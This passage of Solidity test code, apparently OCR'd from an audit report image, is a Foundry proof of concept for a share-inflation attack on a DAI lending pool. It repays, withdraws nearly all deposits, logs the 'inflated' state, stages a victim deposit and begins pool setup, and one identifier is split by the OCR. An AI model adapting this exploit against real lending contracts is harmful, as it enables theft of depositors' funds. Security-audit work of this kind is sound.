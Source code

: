 ```solidity

    lendingPool.repay(DAI, type(uint).max);

    s = lendingPool.getAssetState(DAI);
    lendingPool.withdraw(DAI, s.totalDeposits - 2, false);

    vm.stopPrank();

    console2.log("");
    console2.log("after first inflation");
    console2.log("");
    s = lendingPool.getAssetState(DAI);

    emit log_named_decimal_uint("DAI ", 
        IERC20(DAI).balanceOf(address(lendingPool)), 18);
    emit log_named_decimal_uint("WETH", 
        IERC20(WETH).balanceOf(address(lendingPool)), 18);

    emit log_named_decimal_uint("DAI totalDeposits", s.totalDeposits, 18);
    emit log_named_decimal_uint("DAI totalSupply", 
        IERC20(s.collateralToken).totalSupply(), 18);
    emit log_named_decimal_uint("DAI liquidity", 
        lendingPool.liquidity(DAI), 18);

    console2.log("---");
  }

  function victimDeposit(uint amount) public {
    emit log_named_decimal_uint("Victim deposits DAI", amount, 18);
    vm.startPrank(victim);
    deal(DAI, victim, amount);
    IERC20(DAI).approve(address(lendingPool), type(uint).max);
    lendingPool.supply(DAI, amount, false);
    vm.stopPrank();
  }


  function deploy() private {
    MockFundingRateOracle mockFundingRateOracle = 
      new MockFundingRateOracle(6e16);

    IInterestRateModel.Config memory config = I
      InterestRateModel.Config(5e16, 1e17, 1, 6e16, 8e17, 3e17, 5e16);
    interestRateModel = 
      new InterestRateModel(config, 
                            address(mockFundingRateOracle), owner);

    mockPriceProviderRepository = new MockPriceProviderRepository();

    repository = new Repository(
      address(owner),
      address(interestRateModel),
      uint64(80e16), //maxTVL 80%
      uint64(90e16), //liquidationThreshold 90%
      100_000e18
    );

    vm.startPrank(owner);
    repository.addManager(address(owner));

    IRepository.Fees memory _fees = IRepository.Fees(0, 1e15, 0);

    LendingPoolsFactory lendingPoolsFactory = 
```